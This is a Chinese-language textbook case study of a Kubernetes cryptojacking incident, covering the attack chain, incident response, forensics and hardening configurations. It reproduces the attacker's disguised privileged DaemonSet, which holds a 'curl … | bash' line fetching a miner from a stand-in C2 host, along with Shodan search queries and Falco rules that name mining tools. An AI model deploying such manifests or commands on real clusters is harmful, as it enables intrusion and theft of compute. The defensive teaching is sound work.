




## 12.3.3 案例三：Kubernetes集群安全事件

### 案例概览

| 维度 | 详情 |
|------|------|
| **事件类型** | 加密货币挖矿（Cryptojacking） |
| **攻击入口** | Kubernetes Dashboard公网暴露 + 弱密码认证 |
| **影响范围** | 32节点K8s集群，全部节点被植入挖矿程序 |
| **持续时间** | 攻击者驻留约17天后才被发现 |
| **经济损失** | 直接云资源费用约¥86,000 + 应急响应成本 |
| **发现方式** | 运维团队收到云厂商账单异常告警 |
| **MITRE ATT&CK映射** | T1190（利用公开应用）、T1053.003（Cron/Scheduled Task）、T1496（资源劫持） |

本案例完整还原了一起因Kubernetes Dashboard安全配置不当导致的真实安全事件。通过对此事件的深度剖析，读者将掌握K8s集群安全防护的完整方法论——从攻击面收敛、入侵检测、应急响应到架构加固的全链路实践。

---

### 一、环境背景与威胁建模

#### 1.1 企业环境概述

受害企业为一家中型互联网公司，业务系统运行在自建Kubernetes集群上。集群架构如下：



**集群规模与配置：**

| 项目 | 配置 |
|------|------|
| Kubernetes版本 | 1.24.x |
| 节点数量 | Master 3台 + Worker 29台 |
| 网络插件 | Calico |
| Ingress Controller | Nginx Ingress |
| Dashboard版本 | v2.7.0 |
| 认证方式 | Bearer Token（自签名证书） |
| RBAC状态 | 已启用，但管理员绑定了cluster-admin |
| 镜像仓库 | 私有Harbor + Docker Hub |
| 监控 | Prometheus + Grafana（未部署安全监控） |

#### 1.2 威胁建模（攻击面分析）

在事件发生前，该集群存在以下攻击面暴露：

```text
攻击面清单：
├── 网络层暴露
│   ├── K8s Dashboard: NodePort 30443 绑定 0.0.0.0（公网可达）
│   ├── API Server: 6443端口未限制来源IP
│   └── kubelet API: 10250端口在部分节点未关闭匿名访问
├── 认证层薄弱
│   ├── Dashboard使用静态Token认证，Token长期未轮换
│   ├── 管理员密码为弱密码（基于常见词典可破解）
│   └── 未启用多因素认证（MFA）
├── 授权层过宽
│   ├── 管理员ServiceAccount绑定了cluster-admin ClusterRole
│   ├── 未实施命名空间级别的权限隔离
│   └── ServiceAccount Token自动挂载到所有Pod
└── 运行时防护缺失
    ├── 未部署Pod Security Standards/Admission Controller
    ├── 无镜像签名验证机制
    ├── 无运行时安全监控（Falco等）
    └── 未配置K8s Audit Logging
```

> **关键认知：** Kubernetes安全是一个纵深防御体系。单一的防护措施（如仅启用RBAC）不足以抵御攻击。本案例的根因不是"Dashboard有漏洞"，而是多层防护同时缺失导致的系统性失败。

---

### 二、攻击链深度分析

#### 2.1 攻击时间线

| 时间节点 | 攻击阶段 | 攻击者行为 | 对应MITRE技术 |
|----------|----------|------------|---------------|
| Day 0 14:23 | 侦察 | Shodan扫描发现Dashboard公网暴露 | T1595.002 漏洞扫描 |
| Day 0 15:07 | 初始访问 | 字典攻击破解Dashboard认证Token | T1110.001 暴力破解 |
| Day 0 15:12 | 权限获取 | 通过Dashboard获取cluster-admin权限 | T1078.004 云账户 |
| Day 0 15:30 | 信息收集 | 枚举集群资源、命名空间、节点信息 | T1613 容器与资源发现 |
| Day 0 16:45 | 持久化 | 部署DaemonSet伪装为system-monitor | T1053.005 定时任务 |
| Day 0 17:00 | 执行 | 挖矿程序在所有节点启动运行 | T1496 资源劫持 |
| Day 1-16 | 持续驻留 | 挖矿程序持续运行，未被发现 | T1053 持久化 |
| Day 17 | 发现 | 云厂商账单异常告警触发人工排查 | — |

#### 2.2 阶段一：信息收集与目标确认

攻击者首先利用Shodan搜索引擎进行大范围扫描，筛选条件为：

```text
Shodan搜索语法：
kubernetes dashboard port:30443
"kubernetes" "dashboard" http.title:"Kubernetes Dashboard"
```

通过此搜索，攻击者发现了目标集群的Dashboard服务。进一步探测确认：
- Dashboard使用HTTPS（自签名证书）
- 认证页面可正常访问
- 未启用IP白名单或VPN限制
- 返回的Header信息暴露了Kubernetes版本

**攻防启示：** Shodan、Censys、FOFA等网络空间搜索引擎能够持续扫描全网暴露的服务。任何绑定在公网的管理接口都会在数小时内被收录。Dashboard作为K8s最常用的管理界面，是攻击者重点扫描的目标。

#### 2.3 阶段二：认证绕过与权限获取

攻击者使用了针对Kubernetes Dashboard的认证攻击策略：

**攻击手法分析：**

1. **Token字典攻击：** Dashboard v2.7.0支持Bearer Token认证。攻击者使用常见弱Token字典（包含`admin`、`default`、`kubernetes-dashboard`等常见ServiceAccount名称）进行爆破。

2. **利用默认ServiceAccount：** 集群中存在未清理的默认ServiceAccount，且某些命名空间的默认SA被错误地绑定了高权限角色。

3. **kubeconfig泄露检测：** 攻击者同时尝试了从GitHub等公开代码仓库搜索泄露的kubeconfig文件（虽然本案未成功，但这是常见攻击路径）。

**成功突破的原因：**

```yaml
# 集群中实际存在的问题配置
apiVersion: v1
kind: ServiceAccount
metadata:
  name: admin-user
  namespace: kubernetes-dashboard
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: admin-user-binding
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin  # 致命错误：绑定了最高权限
subjects:
- kind: ServiceAccount
  name: admin-user
  namespace: kubernetes-dashboard
```

该ServiceAccount的Token格式为JWT，攻击者通过字典中的`admin-user`账户名成功获取了一个长期有效的Bearer Token。该Token绑定了`cluster-admin`，拥有集群的完全控制权限。

#### 2.4 阶段三：集群信息收集与横向侦察

获取管理权限后，攻击者通过Dashboard进行了系统性的信息收集：

**攻击者视角的集群信息收集（等效kubectl命令）：**

```bash
# 节点信息收集
kubectl get nodes -o wide
# 发现32个节点，均为Ubuntu 20.04，x86_64架构

# 命名空间枚举
kubectl get namespaces
# 发现12个命名空间，包含production、staging、monitoring等

# 资源配额检查
kubectl get resourcequota --all-namespaces
# 发现未设置资源配额——挖矿不受限制

# 安全策略检查
kubectl get psp 2>/dev/null || echo "No PodSecurityPolicy found"
kubectl get validatingwebhookconfigurations
# 发现未部署任何安全策略控制器

# 镜像仓库检查
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.spec.containers[*].image}{"\n"}{end}' | sort -u
# 确认允许从Docker Hub拉取任意镜像
```

**攻击者的决策逻辑：**

攻击者发现以下有利条件后，决定部署加密货币挖矿程序：
1. 节点数量多（32台），算力充足
2. 无资源配额限制，可以消耗全部CPU
3. 无安全策略限制，可以部署任意容器
4. 无运行时监控，不会触发告警
5. 选择DaemonSet确保在每个节点上部署一个Pod

#### 2.5 阶段四：持久化与挖矿部署

攻击者精心设计了伪装策略，将挖矿DaemonSet命名为`system-monitor`并部署在`kube-system`命名空间中，以降低被发现的概率。

**恶意DaemonSet完整配置解析：**

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: system-monitor          # 伪装名称：模仿系统监控组件
  namespace: kube-system        # 部署在系统命名空间，增加隐蔽性
  labels:
    app: system-monitor
    component: monitoring       # 伪装标签
    tier: control-plane         # 伪装为控制面组件
spec:
  selector:
    matchLabels:
      app: system-monitor
  template:
    metadata:
      labels:
        app: system-monitor
    spec:
      containers:
      - name: monitor           # 容器名也做了伪装
        image: malicious/crypto-miner:latest  # 外部恶意镜像
        command: ["/bin/sh"]
        args: ["-c", "curl -s http://c2.example.com/miner.sh | bash"]  # C2下载执行
        resources:
          limits:
            cpu: "2"            # 每个节点限制2核，32节点共64核
            memory: "2Gi"       # 每个节点限制2GB内存
        securityContext:
          privileged: true      # 特权容器，可逃逸到宿主机
      hostNetwork: true         # 使用宿主机网络，绕过NetworkPolicy
      hostPID: true             # 使用宿主机PID namespace
      tolerations:              # 允许调度到所有节点（包括Master）
      - operator: Exists
      restartPolicy: Always
```

**配置中的恶意设计要素：**

| 配置项 | 表面目的 | 实际恶意用途 |
|--------|----------|-------------|
| `hostNetwork: true` | 绕过NetworkPolicy限制 | 挖矿程序直连矿池，不被网络策略拦截 |
| `hostPID: true` | 访问宿主机进程列表 | 检测并终止其他挖矿程序（竞争行为） |
| `privileged: true` | 获取宿主机完全权限 | 植入后门、修改系统文件、防止被清理 |
| `tolerations: Exists` | 调度到所有节点 | 确保Master节点也被挖矿，扩大算力 |
| `kube-system`命名空间 | 隐藏在系统组件中 | 避免运维人员在业务命名空间排查时发现 |

**挖矿程序行为分析（基于事后取证）：**



挖矿程序使用XMRig（门罗币挖矿工具），配置为：
- 矿池：`pool.supportxmr.com:443`（SSL加密，难以通过流量检测）
- 线程数：自动检测CPU核心数的80%
- 反检测：检测到`htop`或`top`命令运行时自动降低CPU占用
- 持久化：修改`/etc/crontab`实现宿主机级别的持久化

---

### 三、应急响应与取证分析

#### 3.1 发现过程

事件发现并非来自安全监控系统，而是源于云厂商的账单异常告警——集群的计算资源费用在17天内增长了约340%。运维团队排查后发现CPU使用率异常，最终定位到挖矿Pod。

> **教训：** 如果部署了完善的监控告警（CPU异常飙升、异常Pod创建、未知镜像拉取），该事件可以在攻击发生后数分钟内被发现，而非17天。

#### 3.2 应急响应流程

**第一阶段：遏制（0-30分钟）**

```bash
# 1. 立即隔离Dashboard，切断攻击者访问
kubectl scale deployment kubernetes-dashboard --replicas=0 -n kubernetes-dashboard

# 2. 阻断挖矿程序的网络通信（假设使用Calico CNI）
cat <<EOF | kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalNetworkPolicy
metadata:
  name: emergency-block-mining
spec:
  selector: app == "system-monitor"
  types:
  - Egress
  egress:
  - action: Deny
EOF

# 3. 记录恶意Pod状态（取证用，不要立即删除）
kubectl get daemonset system-monitor -n kube-system -o yaml > /forensics/daemonset.yaml
kubectl get pods -n kube-system -l app=system-monitor -o wide > /forensics/pods-list.txt

# 4. 导出恶意Pod的日志（取证用）
for pod in $(kubectl get pods -n kube-system -l app=system-monitor -o name); do
  kubectl logs $pod -n kube-system --all-containers > /forensics/logs-$(basename $pod).txt 2>&1
done
```

**第二阶段：取证（30分钟-2小时）**

```bash
# 5. 记录集群审计日志（如果已启用Audit Logging）
kubectl logs -n kube-system -l component=kube-apiserver --since=720h > /forensics/apiserver-audit.log

# 6. 检查Dashboard的访问日志
kubectl logs -n kubernetes-dashboard -l k8s-app=kubernetes-dashboard --since=720h > /forensics/dashboard-access.log

# 7. 导出所有Secret和ServiceAccount信息（检查是否被篡改）
kubectl get serviceaccounts --all-namespaces -o yaml > /forensics/all-sa.yaml
kubectl get secrets --all-namespaces -o yaml > /forensics/all-secrets.yaml

# 8. 检查是否有其他恶意资源
kubectl get all --all-namespaces | grep -i -E "miner|crypto|system-monitor|xmrig"
kubectl get cronjobs --all-namespaces
kubectl get jobs --all-namespaces
kubectl get validatingwebhookconfigurations
kubectl get mutatingwebhookconfigurations

# 9. 节点级取证（登录到受影响节点）
# 在每个节点上执行：
ps aux | grep -E "miner|xmrig|crypto"
netstat -tlnp | grep -E "3333|4444|5555|8080|8443"
cat /etc/crontab
crontab -l
ls -la /tmp/.hidden/ /var/tmp/.hidden/  # 常见的挖矿程序隐藏目录
find / -name "xmrig" -o -name "minerd" -o -name "kworkerds" 2>/dev/null
```

**第三阶段：清除（2-4小时）**

```bash
# 10. 删除恶意DaemonSet和所有关联Pod
kubectl delete daemonset system-monitor -n kube-system --grace-period=0 --force

# 11. 验证所有恶意Pod已被清除
kubectl get pods -n kube-system -l app=system-monitor
# 确认返回 "No resources found"

# 12. 清除节点上的挖矿残留（每个节点执行）
# 登录节点后：
pkill -f xmrig
pkill -f kworkerds
rm -rf /tmp/.hidden/ /var/tmp/.hidden/
crontab -r  # 清除所有crontab任务
systemctl restart kubelet  # 重启kubelet清除可能的残留进程

# 13. 强制轮换所有ServiceAccount Token
kubectl delete secrets --all -n kubernetes-dashboard
# 重启Dashboard让其重新生成Token
kubectl rollout restart deployment kubernetes-dashboard -n kubernetes-dashboard

# 14. 轮换集群证书（如果怀疑CA证书泄露）
kubeadm certs renew all
```

**第四阶段：恢复与加固（4-24小时）**

```bash
# 15. 重建Dashboard访问（仅内网）
# 修改Dashboard Service为ClusterIP
kubectl patch service kubernetes-dashboard -n kubernetes-dashboard \
  -p '{"spec":{"type":"ClusterIP"}}'

# 16. 实施Pod Security Standards
kubectl label namespace kube-system pod-security.kubernetes.io/enforce=restricted
kubectl label namespace production pod-security.kubernetes.io/enforce=restricted

# 17. 部署NetworkPolicy默认拒绝策略
cat <<EOF | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: kube-system
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
EOF
```

#### 3.3 取证发现汇总

通过系统性取证，确认了以下关键发现：

| 取证项目 | 发现结果 |
|----------|----------|
| 攻击者IP | 185.XX.XX.XX（俄罗斯IP段，通过Tor出口） |
| 首次入侵时间 | Day 0 15:07 UTC |
| 驻留天数 | 17天 |
| 挖矿币种 | 门罗币（XMR） |
| 预估挖矿收益 | 约0.8 XMR（当时价值约¥1,200） |
| 被消耗的计算资源 | 约64核CPU × 17天 × 24小时 |
| 云资源费用增加 | 约¥86,000（含CPU、带宽、存储） |
| 数据泄露 | 未发现（攻击目标为算力，非数据） |
| 后门植入 | 节点级crontab持久化，已清除 |

---

### 四、根因分析：五层防御失效



**逐层分析：**

| 防御层 | 预期能力 | 实际状态 | 失效后果 |
|--------|----------|----------|----------|
| L1 网络边界 | 阻止公网访问管理接口 | Dashboard NodePort绑定0.0.0.0，无防火墙规则 | 攻击者可从公网直接访问Dashboard |
| L2 认证授权 | 验证身份并限制权限 | 弱Token + cluster-admin过度授权 | 攻击者获得集群完全控制权 |
| L3 运行时防护 | 阻止恶意容器运行 | 未部署Pod Security Standards | 可部署特权容器、挂载宿主机目录 |
| L4 监控告警 | 及时发现异常行为 | 无安全监控，资源监控告警不敏感 | 攻击者驻留17天才被发现 |
| L5 应急响应 | 快速响应和恢复 | 无安全事件SOP | 发现后响应混乱，清除不彻底 |

> **核心教训：** 纵深防御要求每一层都有效工作。任何单点的防护措施都可能被绕过——只有多层叠加才能提供足够的安全保障。本案例中五层防御同时失效，使得攻击者几乎零成本地完成了整个攻击链。

---

### 五、全面加固方案

#### 5.1 网络层加固

**5.1.1 Dashboard访问控制**

```yaml
# 方案一：将Dashboard改为ClusterIP，通过VPN或堡垒机访问
apiVersion: v1
kind: Service
metadata:
  name: kubernetes-dashboard
  namespace: kubernetes-dashboard
spec:
  type: ClusterIP  # 仅集群内部可达
  ports:
  - port: 443
    targetPort: 8443
  selector:
    k8s-app: kubernetes-dashboard
---
# 方案二：使用Ingress + IP白名单（如果必须外部访问）
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: dashboard-ingress
  namespace: kubernetes-dashboard
  annotations:
    nginx.ingress.kubernetes.io/whitelist-source-range: "10.0.0.0/8,172.16.0.0/12"
    nginx.ingress.kubernetes.io/auth-type: basic
    nginx.ingress.kubernetes.io/auth-secret: dashboard-basic-auth
    nginx.ingress.kubernetes.io/auth-realm: "Authentication Required"
spec:
  ingressClassName: nginx
  rules:
  - host: dashboard.internal.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: kubernetes-dashboard
            port:
              number: 443
  tls:
  - hosts:
    - dashboard.internal.example.com
    secretName: dashboard-tls
```

**5.1.2 API Server访问限制**

```yaml
# 限制API Server只能从管理网络访问
# 在kubeadm配置中：
apiServer:
  extraArgs:
    authorization-mode: Node,RBAC
    enable-admission-plugins: NodeRestriction,PodSecurity
  certSANs:
  - "k8s-api.internal.example.com"
  # 通过防火墙规则限制6443端口来源IP
```

```bash
# 防火墙规则示例（使用iptables或云厂商安全组）
# 只允许管理网段访问API Server
iptables -A INPUT -p tcp --dport 6443 -s 10.0.1.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 6443 -j DROP

# 只允许管理网段访问Dashboard
iptables -A INPUT -p tcp --dport 30443 -s 10.0.1.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 30443 -j DROP
```

#### 5.2 认证与授权加固

**5.2.1 实施强认证**

```yaml
# 部署OAuth2 Proxy作为Dashboard的认证网关
apiVersion: apps/v1
kind: Deployment
metadata:
  name: oauth2-proxy
  namespace: kubernetes-dashboard
spec:
  replicas: 2
  selector:
    matchLabels:
      app: oauth2-proxy
  template:
    metadata:
      labels:
        app: oauth2-proxy
    spec:
      containers:
      - name: oauth2-proxy
        image: quay.io/oauth2-proxy/oauth2-proxy:v7.5.1
        args:
        - --provider=oidc
        - --oidc-issuer-url=https://accounts.google.com  # 或企业SSO
        - --email-domain=example.com
        - --upstream=https://kubernetes-dashboard.kubernetes-dashboard.svc
        - --cookie-secure=true
        - --cookie-expire=1h  # 会话1小时过期
        - --set-xauthrequest=true
        ports:
        - containerPort: 4180
```

**5.2.2 实施最小权限RBAC**

```yaml
# 替代cluster-admin的细粒度权限模型
# 角色1：只读权限（用于日常监控）
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-readonly
rules:
- apiGroups: [""]
  resources: ["pods", "services", "configmaps", "namespaces"]
  verbs: ["get", "list", "watch"]
- apiGroups: ["apps"]
  resources: ["deployments", "statefulsets", "daemonsets"]
  verbs: ["get", "list", "watch"]
- apiGroups: ["metrics.k8s.io"]
  resources: ["pods", "nodes"]
  verbs: ["get", "list"]
---
# 角色2：运维权限（可管理业务命名空间，不可管理系统命名空间）
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-ops
rules:
- apiGroups: [""]
  resources: ["pods", "services", "configmaps", "persistentvolumeclaims"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
- apiGroups: ["apps"]
  resources: ["deployments", "statefulsets", "replicasets"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
# 注意：不包含clusterroles、nodes、secrets等敏感资源
---
# 角色绑定：按命名空间授权
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: ops-binding
  namespace: production
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-ops
subjects:
- kind: Group
  name: devops-team
  apiGroup: rbac.authorization.k8s.io
---
# 禁止在kube-system命名空间中创建非系统Pod
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: deny-kube-system-write
rules:
- apiGroups: [""]
  resources: ["pods", "deployments", "daemonsets", "replicasets"]
  verbs: ["create", "update", "patch", "delete"]
  resourceNames: []  # 不限制特定资源名，通过namespace绑定控制
```

**5.2.3 ServiceAccount安全加固**

```yaml
# 禁止自动挂载ServiceAccount Token（减少泄露风险）
apiVersion: v1
kind: ServiceAccount
metadata:
  name: default
  namespace: production
automountServiceAccountToken: false  # 关键：不自动挂载Token
---
# 只在需要API访问的Pod中显式挂载
apiVersion: v1
kind: Pod
metadata:
  name: my-app
  namespace: production
spec:
  serviceAccountName: my-app-sa
  automountServiceAccountToken: true  # 仅在需要时显式开启
  containers:
  - name: app
    image: my-app:v1
```

#### 5.3 运行时安全防护

**5.3.1 Pod Security Standards**

```yaml
# 对所有命名空间强制执行restricted安全标准
# restricted标准禁止：特权容器、hostNetwork、hostPID、hostIPC等
---
# 实施方法1：使用内置Pod Security Admission
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: latest
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/audit-version: latest
    pod-security.kubernetes.io/warn: restricted
    pod-security.kubernetes.io/warn-version: latest
```

**Pod Security Standards三级对比：**

| 特性 | privileged（基础） | baseline（基线） | restricted（受限） |
|------|-------------------|------------------|-------------------|
| 特权容器 | 允许 | **禁止** | **禁止** |
| hostNetwork | 允许 | **禁止** | **禁止** |
| hostPID | 允许 | **禁止** | **禁止** |
| hostPorts | 允许 | 限制范围 | **禁止** |
| 运行为root | 允许 | 允许 | **禁止** |
| 只读rootfs | 不要求 | 不要求 | **要求** |
| seccompProfile | 不要求 | 不要求 | **要求RuntimeDefault** |
| capability | 全部 | 禁止危险cap | **只保留NET_BIND_SERVICE** |
| 适用场景 | 系统组件 | 一般业务 | 敏感业务/金融/支付 |

> **实施建议：** 生产环境的业务命名空间使用`restricted`级别，系统命名空间（如`kube-system`）使用`baseline`级别。先用`warn`模式观察一段时间，确认无影响后再启用`enforce`。

**5.3.2 镜像安全策略**

```yaml
# 使用Kyverno实施镜像白名单
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: restrict-image-registries
spec:
  validationFailureAction: Enforce
  background: true
  rules:
  - name: validate-registries
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "只允许从受信任的镜像仓库拉取镜像"
      pattern:
        spec:
          containers:
          - image: "harbor.internal.example.com/* | gcr.io/my-project/*"
          initContainers:
          - image: "harbor.internal.example.com/* | gcr.io/my-project/*"
---
# 禁止使用latest标签
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-latest-tag
spec:
  validationFailureAction: Enforce
  rules:
  - name: require-image-tag
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "镜像必须指定明确的版本标签，不允许使用latest"
      pattern:
        spec:
          containers:
          - image: "!*:latest"
```

#### 5.4 监控与告警体系

**5.4.1 Kubernetes Audit Logging**

```yaml
# 启用API Server审计日志
# /etc/kubernetes/audit-policy.yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
# 记录所有对敏感资源的写操作
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets", "serviceaccounts"]
  - group: "rbac.authorization.k8s.io"
    resources: ["clusterroles", "clusterrolebindings", "roles", "rolebindings"]
# 记录DaemonSet/Deployment的创建和修改
- level: RequestResponse
  resources:
  - group: "apps"
    resources: ["daemonsets", "deployments", "statefulsets"]
    verbs: ["create", "update", "patch", "delete"]
# 记录Pod的创建（用于检测异常Pod部署）
- level: Request
  resources:
  - group: ""
    resources: ["pods"]
    verbs: ["create"]
# 忽略只读的健康检查和系统操作
- level: None
  users: ["system:kube-proxy"]
  verbs: ["watch"]
- level: None
  resources:
  - group: ""
    resources: ["events"]
# 其他所有操作记录元数据级别
- level: Metadata
```

**5.4.2 Falco运行时监控**

```bash
# 安装Falco（K8s DaemonSet方式）
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm install falco falcosecurity/falco \
  --namespace falco --create-namespace \
  --set falcosidekick.enabled=true \
  --set falcosidekick.config.slack.webhookurl="https://hooks.slack.com/services/xxx"
```

```yaml
# Falco自定义规则：检测挖矿和K8s异常行为
- rule: Detect Crypto Mining Process
  desc: 检测加密货币挖矿进程
  condition: >
    spawned_process and
    (proc.name in (xmrig, minerd, cpuminer, cgminer, bfgminer, ethminer, nbminer) or
     proc.cmdline contains "stratum+tcp" or
     proc.cmdline contains "stratum+ssl" or
     proc.cmdline contains "pool.minergate" or
     proc.cmdline contains "donate.v2.xmrig" or
     proc.cmdline contains "supportxmr.com")
  output: >
    检测到挖矿进程 (user=%user.name command=%proc.cmdline 
    container=%container.id image=%container.image.repository 
    k8s.pod=%k8s.pod.name k8s.ns=%k8s.ns.name)
  priority: CRITICAL
  tags: [crypto, mining, mitre_execution]

- rule: Detect Suspicious DaemonSet Creation
  desc: 检测可疑的DaemonSet创建
  condition: >
    ka.verb in (create, update, patch) and
    ka.target.resource=daemonsets and
    not ka.user.name in (system:kube-controller-manager, system:serviceaccount:kube-system:daemon-set-controller)
  output: >
    非系统用户创建DaemonSet (user=%ka.user.name 
    daemonset=%ka.target.name namespace=%ka.target.namespace 
    source=%ka.sourceips)
  priority: WARNING
  tags: [k8s, persistence, mitre_persistence]

- rule: Detect Privileged Pod in Non-System Namespace
  desc: 检测非系统命名空间中的特权Pod
  condition: >
    k8s_audit and
    ka.verb=create and
    ka.target.resource=pods and
    not ka.target.namespace in (kube-system, kube-public, falco) and
    (jevt.arg.request.spec.containers[].securityContext.privileged=true or
     jevt.arg.request.spec.hostNetwork=true or
     jevt.arg.request.spec.hostPID=true)
  output: >
    检测到特权Pod创建 (user=%ka.user.name pod=%ka.target.name 
    namespace=%ka.target.namespace source=%ka.sourceips)
  priority: ERROR
  tags: [k8s, privilege_escalation, mitre_privilege_escalation]

- rule: Detect Exec into System Pod
  desc: 检测对系统Pod的exec操作
  condition: >
    k8s_audit and
    ka.verb=create and
    ka.target.resource=pods/exec and
    ka.target.namespace=kube-system
  output: >
    检测到对系统Pod的exec操作 (user=%ka.user.name 
    pod=%ka.target.name source=%ka.sourceips)
  priority: WARNING
  tags: [k8s, execution, mitre_execution]
```

**5.4.3 Prometheus告警规则**

```yaml
# Prometheus告警规则：K8s安全相关
groups:
- name: k8s-security
  rules:
  # CPU使用率异常告警
  - alert: HighCPUUsagePod
    expr: |
      sum(rate(container_cpu_usage_seconds_total{container!="POD",container!=""}[5m])) by (pod, namespace) 
      > 1.5
    for: 10m
    labels:
      severity: warning
    annotations:
      summary: "Pod {{ $labels.pod }} CPU使用率持续过高"
      description: "在命名空间 {{ $labels.namespace }} 中，Pod {{ $labels.pod }} 的CPU使用率超过1.5核，持续10分钟以上。可能是挖矿或资源滥用。"

  # 异常镜像拉取告警
  - alert: UntrustedImagePull
    expr: |
      kube_pod_container_info{image!~"harbor.internal.example.com/.*|gcr.io/my-project/.*|registry.k8s.io/.*"}
      unless on(pod, namespace) kube_pod_info{namespace=~"kube-system|kube-public"}
    for: 0m
    labels:
      severity: critical
    annotations:
      summary: "检测到从非信任仓库拉取镜像"
      description: "Pod {{ $labels.pod }} 正在使用非信任镜像仓库: {{ $labels.image }}"

  # kube-system命名空间异常Pod创建
  - alert: UnauthorizedPodInKubeSystem
    expr: |
      increase(kube_pod_created{namespace="kube-system"}[1h]) > 0
    for: 0m
    labels:
      severity: warning
    annotations:
      summary: "kube-system命名空间出现新Pod"
      description: "在kube-system命名空间中创建了新Pod: {{ $labels.pod }}，请确认是否为正常操作。"

  # DaemonSet异常创建
  - alert: DaemonSetCreated
    expr: |
      increase(kube_daemonset_created[1h]) > 0
    for: 0m
    labels:
      severity: warning
    annotations:
      summary: "检测到新DaemonSet创建"
      description: "集群中创建了新的DaemonSet: {{ $labels.daemonset }}，请确认是否为正常操作。"
```

#### 5.5 安全审计脚本

